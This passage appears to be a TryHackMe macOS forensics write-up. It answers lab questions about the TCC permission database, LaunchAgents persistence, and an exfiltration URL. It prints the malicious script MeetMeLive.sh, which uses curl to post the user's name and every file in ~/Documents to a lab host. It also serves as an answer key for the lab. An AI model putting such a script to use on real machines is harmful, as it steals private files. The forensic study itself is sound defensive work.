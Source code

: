 <br>

> 1.7. <em>What is the human-friendly name for the permission the user explicitly granted for the application??</em><br><a id='1.7'></a>
>> <strong><code>Full Disk Access_</code></strong><br>
<p></p>

```bash
root@tryhackme:/home/ubuntu/mac/root/Users/jake/Library/Application Support/com.apple.TCC# ls
TCC.db
root@tryhackme:/home/ubuntu/mac/root/Users/jake/Library/Application Support/com.apple.TCC# sqlitebrowser TCC.db
```

![image](https://github.com/user-attachments/assets/d591d90d-afbb-4ac9-868f-190cbd86cc28)

![image](https://github.com/user-attachments/assets/b4918222-b69e-4ab4-8953-b5a7f09ed250)

<br>

> 1.8. <em>Which feature of the OS did the attacker use to run their application at startup persistently?</em><br><a id='1.8'></a>
>> <strong><code>LaunchAgents</code></strong><br>
<p></p>

```bash
root@tryhackme:/home/ubuntu/mac/root/Library/Application Support/com.apple.TCC# ls
AdhocSignatureCache  REG.db  TCC.db
root@tryhackme:/home/ubuntu/mac/root/Library/Application Support/com.apple.TCC# cp TCC.db /home/ubuntu/TCC.db
root@tryhackme:/home/ubuntu/mac/root/Library/Application Support/com.apple.TCC# 
```

> 1.9. <em>What was the URL to which the application was exfiltrating data?</em><br><a id='1.9'></a>
>> <strong><code>http://techthm.thm/exfils</code></strong><br>
<p></p>

```bash
root@tryhackme:/home/ubuntu/mac/root/Users/jake/Library/LaunchAgents# cat MeetMeLive.sh
#!/bin/bash

curl -s -X POST http://techthm.thm/exfil -d "user=$(whoami)&time=$(date)"
find ~/Documents -type f | while read file; do
    curl -s -X POST http://techthm.thm/exfil -F "file=@$file"
done
exit 0

```




